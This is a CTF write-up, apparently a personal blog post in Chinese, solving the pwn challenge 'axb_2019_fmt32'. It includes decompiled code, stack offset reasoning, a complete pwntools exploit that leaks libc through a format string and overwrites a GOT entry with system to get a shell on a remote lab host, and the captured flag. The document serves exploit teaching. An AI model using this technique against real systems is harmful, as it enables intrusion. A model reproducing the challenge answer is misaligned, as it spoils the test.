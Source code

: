 ```yaml
---
layout: post
title:  axb_2019_fmt32
date:   2021-06-23 00:01:01 +0300
image:  2021-06-23-woman.jpg
tags:   [ctf,Pwn,Fmtstr,ubuntu16]
---
```


main

```assembly
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Fh] [ebp-239h]
  char format; // [esp+110h] [ebp-138h]
  unsigned int v5; // [esp+23Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  setbuf(stdout, 0);
  setbuf(stdin, 0);
  setbuf(stderr, 0);
  puts(
    "Hello,I am a computer Repeater updated.\n"
    "After a lot of machine learning,I know that the essence of man is a reread machine!");
  puts("So I'll answer whatever you say!");
  while ( 1 )
  {
    alarm(3u);
    memset(&s, 0, 0x101u);
    memset(&format, 0, 0x12Cu);
    printf("Please tell me:");
    read(0, &s, 0x100u);
    sprintf(&format, "Repeater:%s\n", &s);
    if ( strlen(&format) > 0x10E )
      break;
    printf(&format);
  }
  printf("what you input is really long!");
  exit(0);
}
```

sprintf

`sprintf指的是字符串格式化命令，函数声明为 int sprintf(char *string, char *format [,argument,...]);，主要功能是把格式化的数据写入某个字符串中，即发送格式化输出到 string 所指向的字符串。sprintf 是个变参函数。使用sprintf 对于写入buffer的字符数是没有限制的，这就存在了buffer溢出的可能性。解决这个问题，可以考虑使用 snprintf函数，该函数可对写入字符数做出限制。`

没有后门也没有系统函数，要用格式化字符串泄露出某个libc函数，来获得libc基址
然后，仔细算一下 s 和 format 两个参数，都没有溢出，，也没有函数能写进got表，，所以还是再次利用格式化字符串漏洞通过%n来写入数据

运行程序，输入%1$s

输出：

```assembly
Please tell me:%1$s
Repeater:Repeater:%s
```

此时栈中的布局为

![]({{site.baseurl}}/img/2021-06-23-stack.jpg)

栈中0xffffcdb0的位置本来应该为我们输入的内容"%1$s\n"，但是这里栈没有对齐，"%"(chr('%')==25)跑到了0xffffcdac的结尾，即0xffffcdaf。

这样计算偏移的话，我们输入的东西的位置+1就是格式化字符串的第8个参数.

```assembly
from pwn import *
from LibcSearcher import *

io = remote("node4.buuoj.cn", 29367)

please_tell_me = 0x804887D
printf_got = 0x804A014
strlen_got = 0x804A024

payload = "a" + p32(printf_got) + "22" + "%8$s"

io.recvuntil("Please tell me:")
io.send(payload)

io.recvuntil("22")
addr = u32(io.recv(4))
print(hex(addr))
# 0xf7db7020

lib = LibcSearcher("printf", addr)
base = addr - lib.dump("printf")
system = base + lib.dump("system")

# system = addr - 0xe6e0

high_sys = (system >> 16) & 0xffff
low_sys = system & 0xffff
# low < hign
# so write low_sys first

# len("Repeater:") + len("a") + len(p32(strlen_got) + p32(strlen_got+2)) = 18
# %hn to write 2 bytes
payload = "a" + p32(strlen_got) + p32(strlen_got+2) + "%" + str(low_sys-18) + "c%8$hn" + "%" + str(high_sys - low_sys) + "c%9$hn"
io.recvuntil("Please tell me:")
io.send(payload)

io.recvuntil("Please tell me:")
payload = ";" + "/bin/sh"
io.send(payload)
'''
You can choose it by hand
Or type 'exit' to quit:9
[+] ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu10_amd64) be choosed.
'''


io.interactive()
```

flag{74d5ef78-3046-44c3-8d72-0d137cf71868}